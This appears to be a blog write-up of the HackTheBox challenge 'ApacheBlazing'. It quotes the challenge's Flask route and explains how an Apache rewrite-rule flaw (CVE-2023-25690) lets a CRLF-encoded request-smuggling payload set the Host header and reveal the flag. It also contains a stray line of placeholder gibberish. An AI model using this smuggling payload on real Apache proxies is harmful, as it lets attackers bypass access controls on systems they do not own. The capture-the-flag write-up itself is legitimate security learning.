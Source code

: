 ```yaml
---
author: M4arcu$
image: /images/apache_blaze_thumb_300.png
layout: post
title: HTB-ApacheBlazing
---
```


# APACHE

hakjsdja kasd kjahsd kajhd

![image](/images/apache_blaze.png)


```python
@app.route('/', methods=['GET'])
def index():
    game = request.args.get('game')

    if not game:
        return jsonify({
            'error': 'Empty game name is not supported!.'
        }), 400

    elif game not in app.config['GAMES']:
        return jsonify({
            'error': 'Invalid game name!'
        }), 400

    elif game == 'click_topia':
        return jsonify({key: value for key, value in request.headers

        }), 200
        if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
            return jsonify({
                'message': f'{app.config["FLAG"]}'
            }), 200
        else:
            return jsonify({
                'message': 'This game is currently available only from dev.apacheblaze.local.'
            }), 200

    else:
        return jsonify({
            'message': 'This game is currently unavailable due to internal maintenance.'
        }), 200
```

<!--excerpt.start-->
we need to get `X-Forwarded-Host` to be only `dev.apacheblaze.local`
between client and backend is a apache proxy server.

regognized the requests are having the form of api endpoints but ended up as url parameters.
<!--excerpt.end-->

![image](/images/Pasted image 20231002230311.png)


there must be some kind of parsing rule in the proxy server.

googling showed a CVE that was interesting and leaded to the solution:

**CVE-2023-25690** and this [POC - Link](https://github.com/dhmosfunk/CVE-2023-25690-POC)

turns out the rewrite rule could be used to send a request before the intended one.

the rule looks something like this:
```
RewriteRule "^/categories/(.*)" "http://192.168.10.100:8080/categories.php?id=$1" [P]
```

so everything after *games* will be passed as argument.
we can exploit that with a long string, where whitespace is url encoded:

```
GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1
```

there are two requests. but only the first one gets processed and here we set *host* to the *dev.apacheblaze.local* string to get the flag.

![image](/images/Pasted image 20231002231038.png)
